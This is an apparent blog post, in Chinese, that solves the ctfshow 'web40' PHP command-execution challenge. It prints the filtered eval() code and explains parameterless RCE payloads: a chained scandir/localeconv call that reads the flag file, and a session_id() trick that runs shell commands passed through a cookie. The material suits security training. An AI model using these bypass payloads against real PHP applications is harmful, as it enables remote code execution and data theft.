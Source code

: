 ```yaml
---
layout: post
title:  "[命令执行]web40"
date:   2021-01-13 22:50:00 +0800
categories: ctfshow
---
```


### Web40

```php
if(isset($_GET['c'])){
  $c = $_GET['c'];
  if(!preg_match("/[0-9]|\~|\`|\@|\#|\\$|\%|\^|\&|\*|\（|\）|\-|\=|\+|\{|\[|\]|\}|\:|\'|\"|\,|\<|\.|\>|\/|\?|\\\\/i", $c)){
    eval($c);
  }
    
}else{
  highlight_file(__FILE__);
}
```

**考点：无参数RCE**

> 无参数的意思可以是a()、a(b())或a(b(c()))，但不能是a('b')或a('b','c')，不能带参数。

这个地方ban的括号是假的...，中文括号，因此带括号的函数都能用。但是过滤的东西还是非常多，常用的`*`、`$`、`'`、`"`、`` ` ``都被ban掉了。因此要想其他办法了

~~我TM直接查看hint~~

> ```
> show_source(next(array_reverse(scandir(pos(localeconv()))))); 
> ```
>
> GXYCTF的禁止套娃 通过cookie获得参数进行命令执行
>```
>c=session_start();system(session_id());
>passid=ls
>```

看样子是构建一个session，然后执行系统函数讲session_id的参数执行

一个一个函数分析吧

```php
pos() // 输出数组中当前元素的值
localeconv() // 函数返回一包含本地数字及货币格式信息的数组。
// localeconv()  函数会返回以下数组元素：
// [decimal_point] - 小数点字符
// [thousands_sep] - 千位分隔符
// [int_curr_symbol] - 货币符号 （例如：USD）
// [currency_symbol] - 货币符号 （例如：$）
// [mon_decimal_point] - 货币小数点字符
// [mon_thousands_sep] - 货币千位分隔符
// [positive_sign] - 正值字符
// [negative_sign] - 负值字符
// [int_frac_digits] - 国际通用小数位
// [frac_digits] - 本地通用小数位

// 这里pos() 拿到了 "." 
// 因此构造出了 sacndir('.')
scandir() // 获取目录下的文件 
array_reverse() // 以相反的顺序返回数组 第二个元素变为flag
next() // 返回数组中下一个元素 这里返回flag
show_source() // 函数对文件进行语法高亮显示 等同于highlight_file()
```

OK，拿到了flag